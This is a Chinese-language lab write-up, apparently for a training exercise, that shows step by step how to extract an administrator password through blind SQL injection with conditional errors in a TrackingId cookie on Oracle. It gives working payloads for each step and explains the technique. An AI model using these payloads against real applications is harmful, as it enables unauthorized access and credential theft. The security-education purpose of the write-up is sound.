

# 题意


题意与上一题基本一致，获取administrator的密码并且登录即可。
# 解题思路
step1:确认当有错误时服务器会反应
```
Cookie:TrackingId=xyz
```

step2:确认错误是sql语法错误


为此，需要先输入一句合法的sql子句：
```
TrackingId=xyz'||(SELECT '')||'
```

若有报错说明是数据库版本问题，oracle版本的：

```
TrackingId=xyz'||(SELECT '' FROM dual)||'
```
此时服务器应当不返回报错。

再输入一个非法的sql字句：

```
TrackingId=xyz'||(SELECT '' FROM not-a-real-table)||'
```

应用程序返回报错，说明可以用conditional error来处理。

step2:确定是否存在user表：

```
TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'
```

<u>注意这里的WHERE ROWNUM = 1很重要，保证了两条语句的串联没有被破坏</u>

用conditional error：
```
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE ROWNUM = 1)||'


TrackingId=xyz'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE ROWNUM = 1)||'
```
第一条报错，第二条不报错，则说明users存在。

step3:确定是否有administrator用户

```
TrackingId=LDJkIKY98qVxuqwB'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'


TrackingId=LDJkIKY98qVxuqwB'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
第一条报错，第二条不报错，则说明administrator列存在。

step4:确定administrator的密码:
```
TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```
burpsuite中payload的配置与上一题基本一致。
# 知识点
## conditional error
如果应用程序的行为不随sql语句的结果发生变化，就需要使用conditional errors。即修改sql语句，当条件为真时产生数据库error。通常，没有被处理过的数据库error会造成应用程序在响应上有一些差异，允许攻击者来推断注入条件的真伪。例如：

```
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```
这两条输入采用case关键字来测试条件并且根据表达式的真伪返回不同的结果。对于第一个表达式，case为false，SELECT的结果为a。对于第二个表达式，case为true，语句会执行1/0导致除零错误。